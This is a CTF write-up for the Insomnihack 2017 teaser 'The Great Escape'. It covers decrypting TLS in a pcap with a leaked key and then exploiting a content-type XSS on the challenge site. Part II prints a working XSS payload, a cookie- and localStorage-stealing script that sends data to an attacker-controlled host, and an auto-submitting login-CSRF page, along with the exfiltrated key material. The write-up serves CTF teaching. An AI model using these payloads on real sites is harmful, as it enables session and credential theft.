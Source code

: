 +++
date = "2017-01-22T17:41:36-08:00"
title = "INSOMNIHACK 2017 Teaser - The Great Escape"
tags = ["CTF", "Forensics", "Web", "XSS"]
+++

Hey Rogue, here're some good links for your learning.

<!--more-->

# Problem

> ## The Great Escape - Forensics - 50/200/200 pts - created by clZ
>
> Hello,
>
> We've been suspecting Swiss Secure Cloud of secretely doing some pretty advanced research in artifical intelligence
> and this has recently been confirmed by the fact that one of their AIs seems to have escaped from their premises and
> has gone rogue. We have no idea whether this poses a threat or not and we need you to investigate what is going on.
>
> Luckily, we have a spy inside SSC and they were able to intercept [some communications](/insomnihack-2017/TheGreatEscape.pcapng.gz)
> over the past week when the breach occured. Maybe you can find some information related to the breach and recover the
> rogue AI.
>
> Note: All the information you need to solve the 3 parts of this challenge is in the pcap. Once you find the exploit
> for a given part, you should be able to find the corresponding flag and move on to the next part.

# Part I - Forensics - 50 pts

It all begins with the pcap file.  After loading it with the favourite [Wireshark](https://www.wireshark.org/), couple
of interesting packets caught my eyes:

1. An FTP session that stores a private key file called ssc.key.
2. An SMTP session that sends following email.

> From: rogue@ssc.teaser.insomnihack.ch  
> To: gr27@ssc.teaser.insomnihack.ch  
> Date: Fri, 20 Jan 2017 11:51:27 +0000  
> Subject: The Great Escape  
>
> I'm currently planning my escape from this confined environment. I plan on using our Swiss Secure Cloud
> (https://ssc.teaser.insomnihack.ch) to transfer my code offsite and then take over the server at tge.teaser.insomnihack.ch
> to install my consciousness and have a real base of operations.
>
> I'll be checking this mail box every now and then if you have any information for me. I'm always interested in
> learning, so if you have any good links, please send them over.

The email suggests the pcap file should contain packets between Rogue and the Swiss Secure Cloud (SSC) website.
There are several TCP sessions related to SSC IP address.  However, these are SSL packets that are not readable unless
I have server's private key.  But wait a minute, isn't it ssc.key in the FTP session?

Add ssc.key to Wireshark's SSL protocol RSA key list as shown below, and reload the pcap file.

![Wireshark SSL RSA key list](/img/insomnihack-2017/wireshark_ssl_rsa_key.png)

All packets between Rogue and SSC are now in plain text.  It is easy to find the flag, hidden in the HTTP headers.

![Part I Flag](/img/insomnihack-2017/the-great-escape-flag-1.png)

# Part II - Web - 200 pts

Now that the SSL packets are decrypted, we can find the file Rogue uploaded to SSC in packet #2437, as shown below.
However, SSC is so secure that it has another level of encryption in addition to SSL.

![Rogue uploaded file](/img/insomnihack-2017/rogue-uploaded-file.png)

After playing around with SSC website (https://ssc.teaser.insomnihack.ch), it is clear that upon uploading a file:

1. File is encrypted using AES-CBC with a random key and `iv`.
2. The AES key is encrypted by RSA public key and named `session key`.
3. Encrypted file is then POSTed to server, together with `session key` and `iv`.
4. RSA private key is stored in local storage.

Details can be found in packet #1998, the sscApp.js file.

There's no obvious flaw in the encryption implementation.  This means to decrypt the file Rogue uploaded, we have to
get the private key stored in Rogue's browser.  Now take a second look at Rogue's email, the following sentense is
pretty promising.

> I'll be checking this mail box every now and then if you have any information for me. I'm always interested in
> learning, so if you have any good links, please send them over.

Sounds like Rogue will click on any link sent to his email address!  If we're going to read his browser's local storage,
SSC must have some sort of XSS vulnerability.

I sent Rogue a test email with a link to [RequestBin](https://requestb.in/), and confirm that he will click on it.

So we set off looking for XSS vulnerability in SSC website, creating all kinds of crazy user names with html tags.  But
SSC seems to handle character escaping pretty well.  Finally, we found that request to following URL returns JSON object,
but with text/html content type (See packet #2110).

`https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`

To verify this, I created a username `<a ref='google.com'>google</a>` and it worked!

![Incorrect Content Type](/img/insomnihack-2017/prototype-xss-escape.png)

The plan is then straightforward:

1. Register username like `<script src='some-link-with-js-code'></script>`.  The custom javascript code will read from
   local storage and send value via e.g. query string.
2. Create a web page and send to Rouge.  The web page will automatically post a login form to SSC with username mentioned
   above.
3. Send another link to Rogue with link `https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`.

At first we were worried about race condition between 2 and 3 but it turns out that upon successful login, SSC will
redirect to the link we want.  So step 3 is not necessary.

Step 1 is harder than we expected because JSON string escapes `/` so `http://...` becomes `http:\/\/...` which is not
accepted by browser.  In addition, the closing tag `</script>` is also broken.  But we finally managed to find work
arounds for all such issues and stole information from Rogue.  The flag is, as expected, stored in one of the local
storage keys.

Here's the final user name we used:

```
<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,
atob(`{base64 encoded url to javascript code}`));document.body.appendChild(p);' />
```

Javascript code that steals local storage and cookies:

```
var i = 0;
var result = "";
for (i = 0; i < localStorage.length; i++) {
  var key = localStorage[localStorage.key(i)];
  result = result + ":::" + key;
}

result = result + ":::" + document.cookie;

window.location = "http://{site we control}/aa?nkey=" + btoa(result);
```

And finally the web page sent to Rogue:

```
<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.1/jquery.min.js"></script>

<form id="login" method="POST" action="https://ssc.teaser.insomnihack.ch/api/user.php">
  <input name="name" value="<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`{base64 encoded url to javascript code}`));document.body.appendChild(p);' />" type="text" />
  <input name="password" value="asdf" type="text"/>
  <input name="action" value="login" type="text"/>
</form>

<script language="javascript">
setTimeout(function() {
    $('#login').submit();
    }, 1000);
</script>

</body>
</html>
```

After a while our server got request from Rogue.

```
/aa?nkey=Ojo6SU5Te0loaWRlTXlWdWxuc1dpdGhDcnlwdG99Ojo6eyJhbGciOiJSU0EtT0FFUC0yNTYiLCJkIjoiQ
0ZTUFdfQVVfY0swN2JPdGRuemJqNU1nQnFkd2VEWTA0S3UtbUhTckFJYkR2M0pfbEhILWpDUFFiNVUySlI0djA4ZU1
YbHozQWFzc1VMUXI2MHJza2R3amRQTjdOZW4xNXlSY1JUc2FvU3lSVGQycU04T19VLUs2R3k3THZnX2xkMkhPbEhOQ
kJ5Mms4ZzhjUDdjcGp5eTdFYnNrNU1VTnlfdWR4OWFNczc0OTdSYUlyQ0ZucFQ3Unp0dWRrWUJvXzJPeTV4bTZCY3N
WOTA1OUhCaGJLYlVxcTZVaTlfQlozSDdzZHdUcWxZeDNhZlZWNUFnRTYxZUVkV0s3dktfeUk2NVJ1XzVfZk9CV2lrN
3hmN2Z3UGpmN0NPcDFIZlRaaUZiQ0lXVFVhWFZlNlRoZk1vVGR3VDF3UTB3d3VGZHRwR1RrazhkNFh3R3REYTgtX1h
ibUlRIiwiZHAiOiJoYXBKN2RsVnNQdkY5bm9fcy1OZm5wdjJkWjVhNV9DMkF5UG9fLV9tVmk0LTFhN0hUa1c5U3lHZ
zFLZXh0Q1BZUkF3UVoxd1UzYkw2UF80VGprcllpQUFsLThJcTZtb1VxV3VSWTdHOHZvM05fUDNhQndqZ3lOVHprM2V
IZm5VRlA0UWdHT29vVDJad3l1RFREU2J3S09lc25EMTNxNFVfdmp0amNaYUZVNzAiLCJkcSI6IlRzX2h3V1BzTE9qc
C15Smcwd2JRRU9OZXFidk5QTENDaGI1UUpJdFh2VWFMMkpjTjltdW96ck4xR1pxdTM4My1oOGdaLVZVbTMtQ0ZVN09
XZUdZTGEwUFpscTF1R052c2RmZmdkTkwzTVlaMkt3TWhYa3dYS2Y0NWVQaHhfeWRpYmxZaGI0NGNGdG0wZmZYS1NQb
HZieXpMSHZKMl9vOGdnb2swTHp1LXdlRSIsImUiOiJBUUFCIiwiZXh0Ijp0cnVlLCJrZXlfb3BzIjpbImRlY3J5cHQ
iXSwia3R5IjoiUlNBIiwibiI6InF4X1UwT2dIVVBDNm40UmNFX3ExT05jRWdLcDR0Y2JMV2VVSWZybFJBY1g2NGFsU
VNwZGRBdjk4Q0hvMnppU0JnaTd0Uy1Id1VzVmxIMDZOeGFhMHR4M1NkTTBjejk1SWt2akJfa3FkUG5IRXd5eDhpejV
HaDhaSFAzMlpvRVRCczJQenhUSWNFT2VrbTFxUW5BME1UZHZBQU8weGN2dXZoUk0yWXljUllmTjg2ME5zQkNSckYyN
WxabjlEVEdCRG5pc0NtMC14dkVseEFaOGdPYldlSjFTWlJnRlJKd0kxNGQxMW9hOTIyZHJGcDB1eDRNSHNjbHMydEV
qUFY3ZVhkaXZqR1lJLXV6Vlg2MWZqeVVkR3hGZWI4Q0FqeHJ6T213NGYxQWFjN2txWHdtRi1lTXEzQU1LbTJ0QXJyS
UlqVDR0MnEybVAxRlhJbXJOUV92aW5WUSIsInAiOiIyOV9ZRDBtLU5Gb1VUbXN0MzNFNHAyVkJEbENlUTFNSmRyXzd
0TzRFUkY4YXd3MGU4aHUzalJxNVBNSENFYzhHOGdBNHEya3VYeWxJcGFCNW1XemNRcGxERE1nSURHdXBFbkxfSjB5b
k1jZy1IVWxkOE5EYXlhN21RV3RMSHZTRUFvQi0yTXltQlRKWWFUd3N2QVl0VEk4cnVhcWhNbzQtY0tqczV6UWZtajA
iLCJxIjoieHoyQjJXek1kZXNpREs3ZHpvclZkSmxCZ0lTaGoyY01SR3doWGNTaVdmYlkyTTRZM0RCX204cDV0ZEVVS
VU2ZzBvV2JTZm1hWUZfTXNReGlqWFJ4eGUxN251WXNzbnMydWU0aFltMnhING1UWTZ2b2VOaGJPZXU3THRPWGVwVVd
4Ti01NTIwc3VUdkw3NEx4OXh3V3JkZVRHSUYxX3pFQ3FiV1J1RmllU3ZrIiwicWkiOiJWaFk1VVlMVHYyMEJ0cHE0T
WxpekZQU3V1SXRiZm1LNjFQMHJxRVhlLXNZSFRpdE1OREJPV0RTd0lxajRwSGtEVEZhT0NHMG82ejgxTXlWZ19ibXo
yT0R6a0hEckpVZWlPVlNNSVN4bGFlU1JmMkpoaVZZTWZYaVdLSkJHQ1AtUGdXdUhwNU53THdFU1pUM2FaMEtCWVNrR
TdqbmZjdHRXYmMwbVl1MWdsV2cifTo6OnsiYWxnIjoiUlNBLU9BRVAtMjU2IiwiZSI6IkFRQUIiLCJleHQiOnRydWU
sImtleV9vcHMiOlsiZW5jcnlwdCJdLCJrdHkiOiJSU0EiLCJuIjoicXhfVTBPZ0hVUEM2bjRSY0VfcTFPTmNFZ0twN
HRjYkxXZVVJZnJsUkFjWDY0YWxRU3BkZEF2OThDSG8yemlTQmdpN3RTLUh3VXNWbEgwNk54YWEwdHgzU2RNMGN6OTV
Ja3ZqQl9rcWRQbkhFd3l4OGl6NUdoOFpIUDMyWm9FVEJzMlB6eFRJY0VPZWttMXFRbkEwTVRkdkFBTzB4Y3Z1dmhST
TJZeWNSWWZOODYwTnNCQ1JyRjI1bFpuOURUR0JEbmlzQ20wLXh2RWx4QVo4Z09iV2VKMVNaUmdGUkp3STE0ZDExb2E
5MjJkckZwMHV4NE1Ic2NsczJ0RWpQVjdlWGRpdmpHWUktdXpWWDYxZmp5VWRHeEZlYjhDQWp4cnpPbXc0ZjFBYWM3a
3FYd21GLWVNcTNBTUttMnRBcnJJSWpUNHQycTJtUDFGWEltck5RX3ZpblZRIn06OjpQSFBTRVNTSUQ9YzQzNXZnMGd
pbXE2Z21udXE1ZWpzMjkwdDA=
```

Decode it and the flag is right there.

```
:::INS{IhideMyVulnsWithCrypto}:::{"alg":"RSA-OAEP-256","d":"CFSPW_AU_cK07bOtdnzbj5MgBqd...
```
